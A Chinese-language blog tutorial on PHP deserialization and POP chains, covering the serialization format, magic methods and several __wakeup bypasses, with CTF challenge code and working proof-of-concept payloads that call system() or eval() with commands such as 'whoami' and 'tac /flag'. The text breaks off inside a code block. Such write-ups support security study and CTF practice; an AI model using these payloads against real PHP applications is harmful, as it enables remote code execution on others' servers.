






+++
title = "php反序列化\\pop"
slug = "php-deserialization-pop"
description = "pop入门"
date = "2024-09-07T11:03:57"
lastmod = "2024-09-07T11:03:57"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "php"]
+++

# 0x01 前言

总感觉自己的`php`反序列化不够稳定，简单的那确实直接就秒了，稍微来点东西就卡着，所以我觉得还是很有必要来深入浅出一下

# 0x02 question

## 概念

什么是序列化?

`serialize()`：将变量序列化为字符串。

什么是反序列化?

`unserialize()`：将序列化后的字符串恢复为PHP的变量

那么明明知道有危险为什么还会这样子呢，序列化的好处

> 可以利用相对来说极小的空间存储信息，方便进行二次利用

## 格式

`php`序列化的存储格式是`json`,我们来理解一下这个字符串的格式

首先利用`serialize`生成一个字符串

```php
<?php
class Me{
    public $name="bao";
    public $age="18";
    public $languages="CN";

}
echo serialize(new Me());
/*
O:2:"Me":3:{s:4:"name";s:3:"bao";s:3:"age";s:2:"18";s:9:"languages";s:2:"CN";}
```

一般的序列化字符串的格式是

> 变量类型:类名长度:类名:属性数量:{属性类型:属性名长度:属性名;属性值类型:属性值长度:属性值内容}

其中常见的类型标志如下

| 符号 | 类型描述                                       |
| ---- | ---------------------------------------------- |
| a    | array 数组型                                   |
| b    | boolean 布尔型                                 |
| d    | double 浮点型                                  |
| i    | integer 整数型                                 |
| o    | common object 共同对象                         |
| r    | object reference 对象引用                      |
| s    | non-escaped binary string 非转义的二进制字符串 |
| S    | escaped binary string 转义的二进制字符串       |
| C    | custom object 自定义对象                       |
| O    | class 对象                                     |
| N    | null 空                                        |
| R    | pointer reference 指针引用                     |
| U    | unicode string Unicode 编码的字符串            |

那么我们随手写的第一个序列化字符串就是

```php
O:2:"Me":3:{s:4:"name";s:3:"bao";s:3:"age";s:2:"18";s:9:"languages";s:2:"CN";}
```

- `O:2:"Me"`表示这个是一个对象且类名为`Me`,
- `3`表示该类有三个属性
- `s:4:"name";s:3:"bao";`表示第一个属性为字符串，且属性名为`name`,属性值为字符串,属性内容为`bao`

同理下面的不讲了

那么我们如果得到一个序列化字符串如何快速的得到原来的内容呢，这就是反序列化了！

还是以我们自己写的为例子

```php
<?php
$data='O:2:"Me":3:{s:4:"name";s:3:"bao";s:3:"age";s:2:"18";s:9:"languages";s:2:"CN";}';
var_dump(unserialize($data));
/*
class __PHP_Incomplete_Class#1 (4) {
  public $__PHP_Incomplete_Class_Name =>
  string(2) "Me"
  public $name =>
  string(3) "bao"
  public $age =>
  string(2) "18"
  public $languages =>
  string(2) "CN"
}
```

那么我们就得到了这个字符串是如何序列化而来，并且也确实像前面说的一样起到了存储数据的功能

## 访问控制修饰符

> public(公有属性)        
>
> protected(受保护的)
>
> private(私有的)

那么这么几个字那肯定是不能理解的我们深入一下，但是在**php7.1+**的时候就不敏感了

### public

- 公有属性可以在类的任何地方访问，序列化时也会直接包含在序列化字符串中，反序列化时能够正常恢复。
- 这是最普通的属性，可在序列化和反序列化之间正常传递。

就是说这个相当于是直接把门给你了，有钥匙就行

### protected

- 受保护的属性只能在类内部及其子类中访问。
- 在反序列化时，PHP会恢复这些属性，但是只能在类或其子类中访问

### private

- 私有属性只能在定义它的类内部访问。

### demo

那么写个`demo`

```php
<?php
class Me{
    public $name="bao";
    protected $age="18";
    private $languages="CN";

}

$object = new Me();
$data = serialize($object);
echo $data;
file_put_contents("serialize.txt", $data);
```

生成的文件拖到010里面或者在Linux里面进行16进制解析

```bash
hexdump -C serialize.txt
```



诶这就是控制修饰符的特殊之处了，我们得到的序列化字符串是这样的

```
O:2:"Me":3:{s:4:"name";s:3:"bao";s:6:"*age";s:2:"18";s:13:"Melanguages";s:2:"CN";}
```

这样子看可能还是不太好看，我们再选中看看那两个空白符是干哈的



也就是`protected`的属性名长度和属性名都发生了改变构造为

```
public:
s:3:"age";s:2:"18";
protected:
s:6:"%00*%00age";s:2:"18";
```

反观`private`,也有改变

```
public:
s:9:"languages";s:2:"CN";
private:
s:13:"%00Me%00languages";s:2:"CN";
```

总结一下也就是

```php
public(公有) 
protected(受保护)     // %00*%00属性名
private(私有的)       // %00类名%00属性名
```

## 魔术方法

| 函数           | 说明                                                         |
| :------------- | :----------------------------------------------------------- |
| __construct()  | 构造函数，当一个对象创建时被调用。具有构造函数的类会在每次创建新对象时先调用此方法，所以非常适合在使用对象之前做一些初始化工作 |
| __destruct()   | 析构函数，当一个对象销毁时被调用。会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行 |
| __toString     | 当一个对象被当作一个字符串被调用，把类当作字符串使用时触发，返回值需要为字符串 |
| __wakeup()     | 调用unserialize()时触发，反序列化恢复对象之前调用该方法，例如重新建立数据库连接，或执行其它初始化操作。unserialize()会检查是否存在一个__wakeup()方法。如果存在，则会先调用__wakeup()，预先准备对象需要的资源。 |
| __sleep()      | 调用serialize()时触发 ，在对象被序列化前自动调用，常用于提交未提交的数据，或类似的清理操作。同时，如果有一些很大的对象，但不需要全部保存，这个功能就很好用。serialize()函数会检查类中是否存在一个魔术方法__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。如果该方法未返回任何内容，则 NULL 被序列化，并产生一个E_NOTICE级别的错误 |
| __call()       | 在对象上下文中调用不可访问的方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| __callStatic() | 在静态上下文中调用不可访问的方法时触发                       |
| __get()        | 用于从不可访问的属性读取数据，即在调用私有属性的时候会自动执行 |
| __set()        | 用于将数据写入不可访问的属性                                 |
| __isset()      | 在不可访问的属性上调用isset()或empty()触发                   |
| __unset()      | 在不可访问的属性上使用unset()时触发                          |
| __invoke()     | 当脚本尝试将对象调用为函数时触发                             |

这些是常见的魔术方法，接下来进行逐个测试

### construct

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        echo "construct被调用\n";
    }
}
$a=new Demo();
echo serialize($a);
/*
construct被调用
O:4:"Demo":2:{s:4:"name";s:3:"bao";s:3:"age";i:18;}
```

确实是创建对象时被调用并且其中的初始化赋值会直接覆盖最初的赋值

### destruct

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        echo "construct被调用\n";
    }
    public function __destruct(){
        echo "destruct被调用\n";
    }
}
$a=new Demo();
echo serialize($a);
echo "\n";
/*
construct被调用
O:4:"Demo":2:{s:4:"name";s:3:"bao";s:3:"age";i:18;}
destruct被调用
```

- **显式销毁对象**（如使用 `unset()` 函数）时，`__destruct()` 会被立即调用。
- **脚本执行结束时**，PHP 会自动销毁所有对象，触发 `__destruct()` 方法。

看到回显，也就是我们进行最后的序列化过程结束之后进行对象的销毁的时候才进行`destruct`

### toString

也就是当对象被当成字符串处理时会触发

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        echo "construct被调用\n";
    }
    public function __toString(){
        return "toString被调用\n";
    }
}
$a=new Demo();
echo $a;
echo serialize($a);
echo "\n";
/*
construct被调用
toString被调用
O:4:"Demo":2:{s:4:"name";s:3:"bao";s:3:"age";i:18;}
```

### wakeup

这个Demo有点难写，后面以CTF题目来讲解，并且有个重点为**wakeup**绕过

### sleep

这个魔术方法就是用来控制那些属性可以被序列化,并且是先序列化一步执行

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public $lanangues="EN";
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        $this->lanangues="CN";
        echo "construct被调用\n";
    }
    public function __sleep(){
        echo "sleep被调用\n";

        return ['name','age'];
    }
}
$a=new Demo();
echo serialize($a);
echo "\n";
/*
construct被调用
sleep被调用
O:4:"Demo":2:{s:4:"name";s:3:"bao";s:3:"age";i:18;}
```

### call

当调用一个不存在的方法或者是不可访问的方法时，会触发

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public $lanangues="EN";
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        $this->lanangues="CN";
        echo "construct被调用\n";
    }
    public function __call($method, $args){
        echo "call被调用\n";
    }
}
$a=new Demo();
$a->sayhello();
echo serialize($a);
echo "\n";
/*
construct被调用
call被调用
O:4:"Demo":3:{s:4:"name";s:3:"bao";s:3:"age";i:18;s:9:"lanangues";s:2:"CN";}
```

### callStatic

当调用一个不存在的**静态**方法或者是不可访问的**静态**方法时，会触发

静态方法和动态方法的区别就是，调用方式不同，我们上面所调用的方法都是动态方法，而静态方法是直接利用类名来调用的而不是对象

```php
<?php
class Demo{
    public static function add($a,$b){
        return $a + $b;
    }
}
echo Demo::add(5,10);
```

这种就是静态方法的调用，而我们如何去触发这个魔术方法也很简单

```php
<?php
class Demo{
    public static function __callStatic($method, $args){
        echo "callStatic被调用\n";
    }
}
Demo::what(5,10);
//callStatic被调用
```

### get

读取不可访问或者是不存在的属性时触发

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public $lanangues="EN";
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        $this->lanangues="CN";
        echo "construct被调用\n";
    }
    public function __get($name){
        echo "get被调用\n";
        return null;
    }
}
$a=new Demo();
$a->me;
echo serialize($a);
echo "\n";
/*
construct被调用
get被调用
O:4:"Demo":3:{s:4:"name";s:3:"bao";s:3:"age";i:18;s:9:"lanangues";s:2:"CN";}
```

### set

将数据写入不可访问或者不存在的属性，也就是说赋值时触发

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public $lanangues="EN";
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        $this->lanangues="CN";
        echo "construct被调用\n";
    }
    public function __set($name,$value){
        echo "set被调用\n";
        return null;
    }
}
$a=new Demo();
$a->me="wi";
echo serialize($a);
echo "\n";
/*
construct被调用
set被调用
O:4:"Demo":3:{s:4:"name";s:3:"bao";s:3:"age";i:18;s:9:"lanangues";s:2:"CN";}
```

### isset

当使用`isset`或者是`empty`来检查不存在或者不可访问的属性时触发

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public $lanangues="EN";
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        $this->lanangues="CN";
    }
    public function __isset($name){
        echo "isset被调用\n";
    }
}
$a=new Demo();
isset($a->me);
echo serialize($a);
echo "\n";
/*
isset被调用
O:4:"Demo":3:{s:4:"name";s:3:"bao";s:3:"age";i:18;s:9:"lanangues";s:2:"CN";}
```

### unset

使用 `unset()` 删除一个不存在或不可访问的属性时，`__unset()` 方法会被调用。

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public $lanangues="EN";
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        $this->lanangues="CN";
    }
    public function __unset($name){
        echo "unset被调用\n";
    }
}
$a=new Demo();
unset($a->me);
echo serialize($a);
echo "\n";
/*
unset被调用
O:4:"Demo":3:{s:4:"name";s:3:"bao";s:3:"age";i:18;s:9:"lanangues";s:2:"CN";}
```

### invoke

当你尝试将一个对象像函数一样调用时，`__invoke()` 会被触发。

```php
<?php
class Demo{
    public $name="wi";
    public $age=19;
    public $lanangues="EN";
    public function __construct(){
        $this->name="bao";
        $this->age=18;
        $this->lanangues="CN";
    }
    public function __invoke(){
        echo "invoke被调用\n";
    }
}
$a=new Demo();
echo $a("i");
echo serialize($a);
echo "\n";
/*
invoke被调用
O:4:"Demo":3:{s:4:"name";s:3:"bao";s:3:"age";i:18;s:9:"lanangues";s:2:"CN";}
```

那么这里就总结完全了，看完之后是不是发现序列化只会进行属性的序列化，有个攻击原理

> **(1)我们在反序列化的时候一定要保证在当前的作用域环境下有该类存在**
>
> 这里不得不扯出反序列化的问题，这里先简单说一下，反序列化就是将我们压缩格式化的对象还原成初始状态的过程（可以认为是解压缩的过程），因为我们没有序列化方法，因此在反序列化以后我们如果想正常使用这个对象的话我们必须要依托于这个类要在当前作用域存在的条件。
>
> **(2)我们在反序列化攻击的时候也就是依托类属性进行攻击**
>
> 因为没有序列化方法，我们只有类的属性可以达到可控，因此类属性就是我们唯一的攻击入口，在我们的攻击流程中，我们就是要寻找合适的能被我们控制的属性，然后利用它本身的存在的方法，在基于属性被控制的情况下发动我们的发序列化攻击

## wakeup bypass

为什么要单独拎出来讲这个魔术方法的绕过，那是因为确实其他的魔术方法都仅仅只是触发就可以了，并不会影响到属性的赋值，而wakeup可以。

### CVE-2016-7124

所以也有开发者为了安全专门设置wakeup来保护，避免被绕过，那么也就是CVE-2016-7124

- PHP5 < 5.6.25
- PHP7 < 7.0.10

正常来说`wakeup`魔术方法会先被触发，然后再进行反序列化

**攻防世界·unserialize3**：

```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```

我们相应的写出`poc`

```php
<?php 
class xctf{
    public $flag='111';
}
$a=new xctf();
echo serialize($a);
//O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```

如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过。那么我们最后提交

```
?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

### 使用C打头绕过

**ctfshow愚人杯 ez_php**

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        system($this->ctfshow);
    }

}

$data = $_GET['1+1>2'];

if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}
?>
```

> C代替O能绕过wakeup，但那样的话只能执行construct()函数或者destruct()函数,但是那样子无法添加内容

由此题可得新姿势，利用将正常的反序列化进行打包之后可进行绕过

首先我们要获得可以进行打包的函数

```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {

    $methods = get_class_methods($class);

    foreach ($methods as $method) {
        if (in_array($method, array('unserialize',))) {
            print $class . '::' . $method . "\n";
        }
    }
}
/*
ArrayObject::unserialize
ArrayIterator::unserialize
RecursiveArrayIterator::unserialize
SplDoublyLinkedList::unserialize
SplQueue::unserialize
SplStack::unserialize
SplObjectStorage::unserialize
```

那么这道题的poc就是这样子

----

前几天做元旦水友赛的时候发现自己的这四种方法并不是写的很清楚，打算重新再写写，首先补充php版本必须为**php7.3.x**，不然的话生成的poc不是C打头的，达不到效果

这个写法的得来是在官方文档中查看得到的[SplObjectStorage](https://www.php.net/manual/zh/splobjectstorage.unserialize.php)

```php
<?php
class ctfshow{
    public $ctfshow;
}
$a=new SplObjectStorage();
$a->a=new ctfshow();
$a->a->ctfshow="ls /";
echo serialize($a);
```

而` SplQueue` 和`SplStack`都是拓展来自`SplDoublyLinkedList` [SplDoublyLinkedList](https://www.php.net/manual/zh/spldoublylinkedlist.unserialize.php) 查看文档发现都没有东西的，所以这三个是都不能使用的

```php
<?php
class ctfshow{
}
$a=new ctfshow();
$a->ctfshow="whoami";
$b=array("test"=>$a);
$c=new ArrayObject($b);
// $c=new ArrayIterator($b);
// $c=new RecursiveArrayIterator($b);
echo serialize($c);
```

这里面的`test`，可以为任意字符串，都能达到一样的效果，所以可以使用的类就只有四种

### 引用地址

相信大家都知道指针这个东西吧，在php中同样可以使用，并且还能够绕过wakeup

**[UUCTF 2022 新生赛]ez_unser**

```php
<?php
show_source(__FILE__);

###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
$bbb=unserialize($_GET['a']);
```

这里很明显的口子可以进行RCE，但是wakeup会赋值为空，所以我们采取一些手段使得值相同

```php
<?php
class test{
    public $a;
    public $b;
    public $c;  
}
$a=new test();
$a->a=1;
$a->b=&$a->a;
echo $a->b;
//1
```

我这里也是成功的利用地址将值赋值相同

因为最后销毁时会将`c`的地址赋值给`b`，那么写`poc`

```php
<?php
class test{
    public $a;
    public $b;
    public $c;  
}
$a=new test();
$a->c="system('whoami');";
$a->a=&$a->b;
echo serialize($a);
```

### fast-destruct

- 在PHP中如果单独执行`unserialize()`函数，则反序列化后得到的生命周期仅限于这个函数执行的生命周期，在执行完unserialize()函数时就会执行`__destruct()`方法
- 而如果将`unserialize()`函数执行后得到的字符串赋值给了一个变量，则反序列化的对象的生命周期就会变长，会一直到对象被销毁才执行`__destruct()`

**[DASCTF X GFCTF 2022十月挑战赛！]EasyPOP**

只讲解如何绕过,写个poc

```php
<?php
class fine
{
    public $cmd;
    public $content;
}
class show
{
    public $ctf;
    public $time = "Two and a half years";
}
class sorry
{
    public $name;
    public $password;
    public $hint = "hint is depend on you";
    public $key;
}

class secret_code
{
    public $code;
}
$Fine = new fine();
$Show = new show();
$Sorry1 = new sorry();
$Sorry2 = new sorry();
$Secret = new secret_code();

$Sorry1->name = 'cc';
$Sorry1->password = 'cc';
$Sorry1->hint = $Show;     //到class show
$Show->ctf = $Secret;     //触发secret_code.show()
$Secret->code = $Sorry2;        //触发__get()
$Sorry2->key = $Fine;
$Fine->cmd = 'system';
$Fine->content = 'tac /flag';
$a = serialize($Sorry1);
echo $a
/*
O:5:"sorry":4:{s:4:"name";s:2:"cc";s:8:"password";s:2:"cc";s:4:"hint";O:4:"show":2:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:4:"hint";s:21:"hint is depend on you";s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"tac /flag";}}}s:4:"time";s:20:"Two and a half years";}s:3:"key";N;}
```

方法有两种

**删除末尾的花括号、数组对象占用指针(改数字)**

本次环境中有两种方法

- 删除最后一个}
- 修改任意类属性数量

都可以达到`fast-destruct`

```
O:5:"sorry":4:{s:4:"name";s:2:"cc";s:8:"password";s:2:"cc";s:4:"hint";O:4:"show":2:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:4:"hint";s:21:"hint is depend on you";s:3:"key";O:4:"fine":2:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"tac /flag";}}}s:4:"time";s:20:"Two and a half years";}s:3:"key";N;

O:5:"sorry":4:{s:4:"name";s:2:"cc";s:8:"password";s:2:"cc";s:4:"hint";O:4:"show":2:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:4:"hint";s:21:"hint is depend on you";s:3:"key";O:4:"fine":4:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"tac /flag";}}}s:4:"time";s:20:"Two and a half years";}s:3:"key";N;}
```

这里只写两种来做示范，而要深究其原理那么得涉及到GC回收机制，这个单独写一篇，因为确实挺有意思(简单的看了看网上的文章)

### php issue#9618

当序列化字符串中的属性名或属性值的长度不一致时，PHP会继续反序列化，但会先触发 `__destruct()` 而不是 `__wakeup()`

- 7.4.x -7.4.30
- 8.0.x

那么借用狗神的Demo来测试一下

```php
<?php 
show_source(__FILE__);
class You{
    public $info;
    private $end="1";
    public function __destruct(){
        $this->info->func();
        echo "destruct被调用\n";
    }
}
class Me{
    public $znd;
    public function __wakeup(){
        $this->znd="exit();";
        echo "wakeup被调用\n";
    }
    public function __call($method, $args){
        echo "call被调用\n";
    }
}
if(isset($_POST['a'])){
    @unserialize($_POST['a']);
}
```

pop链子是

```
You::destruct->Me::call
```

那么我们写个`poc`

```php
<?php
class You{
    public $info;
    private $end="1";
}
class Me{
    public $znd;
    
}
$a=new You();
$a->info=new Me();
echo serialize($a);
```




成功绕过`wakeup`,那么如果我们补上空白符呢，结果可想而知



没有绕过

但是同样的我们使得另外一个属性值长度不一致时也可以绕过

```
a=O:3:"You":2:{s:4:"info";O:2:"Me":1:{s:3:"znd";N;}s:8:"%00You%00end";s:2:"1";}

a=O:3:"You":2:{s:4:"info";O:2:"Me":1:{s:3:"znd";N;}s:8:"%00You%00end";s:1:"12";}
```

## bypass tips

原始payload

```
O:2:"Me":2:{s:4:"name";s:3:"bao";s:3:"age";s:2:"18";}
```

### 追加任意字符串

```php
<?php 
